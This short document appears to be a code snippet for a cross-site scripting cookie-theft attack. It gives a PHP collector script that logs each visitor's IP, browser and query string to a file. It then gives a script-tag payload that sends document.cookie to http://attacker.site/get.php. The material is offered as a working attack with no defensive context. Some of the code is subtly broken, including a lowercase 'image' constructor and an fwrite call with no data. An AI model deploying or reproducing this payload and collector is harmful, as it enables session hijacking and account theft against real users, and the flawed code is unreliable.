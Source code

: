##########################################################################################################

get.php file on web server to write to jar.txt

##########################################################################################################
```
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fwrite($fp);
?>
```
##########################################################################################################

php string to send to above php file

##########################################################################################################

```<script> var i = new image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>```
